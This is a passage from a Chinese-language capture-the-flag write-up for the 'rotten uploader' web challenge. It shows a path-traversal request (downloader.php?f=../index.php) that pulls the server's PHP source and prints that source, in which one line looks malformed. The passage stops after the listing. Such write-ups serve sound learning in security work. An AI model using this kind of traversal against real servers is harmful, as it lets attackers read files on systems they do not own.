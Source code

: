 ## web 150 rotten uploader

题目提示如下：

![这里写图片描述](img/9de637c13e40f9178a685fded0863469.png)

进入之后发现可以直接通过这样子`http://rup.chal.ctf.westerns.tokyo/downloader.php?f=../index.php`下载到`index.php`和`download.php`的源码，但是下`file_list.php`下不下来，先读另外两个的源码吧，`index.php`如下：

```
<?php

include('file_list.php');
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0 Level 2//EN">
<html>
  <head>
    <title>Uploader</title>
  </head>
  <body>
    <h1>Simple Uploader</h1>
    <p>There are no upload features.</p>
    <h3>Files</h3>
    <table width="100%" border="1">
          <tr>
            <th>#</th>
            <th>Filename</th>
            <th>Size</th>
            <th>Link</th>
          </tr>
              <?php foreach($files as $file): ?>
    <?php if($file[0]) continue;   
          <tr>
            <td><?= $file[1]; ?></td>
            <td><?= $file[2]; ?></td>
            <td><?= $file[3]; ?> bytes</td>
            <td><a href="download.php?f=<?= $file[4]; ?>">Download</a></td>
          </tr>
          <?php endforeach;?>
      </table>
  </body>
</html>
```

